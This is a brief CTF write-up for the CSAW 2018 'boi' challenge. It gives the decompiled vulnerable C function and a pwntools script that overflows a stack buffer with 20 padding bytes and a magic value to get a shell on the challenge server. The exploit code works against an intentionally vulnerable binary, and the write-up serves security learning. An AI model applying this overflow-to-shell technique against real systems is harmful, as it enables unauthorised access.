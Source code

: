 ```yaml
---
title:  CSAW CTF 2018
date:  2018-09-17
tags:
  - Stack
  - ShellCode
categories:
  - Writeups
excerpt: "boi, get it, shellcode, double trouble"
---
```



# Pwn

The following two challenges are so easy that I won't explain.

## boi
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+10h] [rbp-30h]
  __int64 v5; // [rsp+18h] [rbp-28h]
  __int64 v6; // [rsp+20h] [rbp-20h]
  int v7; // [rsp+28h] [rbp-18h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  buf = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0;
  HIDWORD(v6) = -559038737;
  puts("Are you a big boiiiii??");
  read(0, &buf, 0x18uLL);
  if ( HIDWORD(v6) == -889996562 )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
}
```

```python
from pwn import *

p = remote("pwn.chal.csaw.io", 9000)
p.recvuntil("?")
offset = "ABCDEFGHIJKLMNOPQRST"
p.sendline(offset + p32(0xcaf3baee))
p.interactive()
```

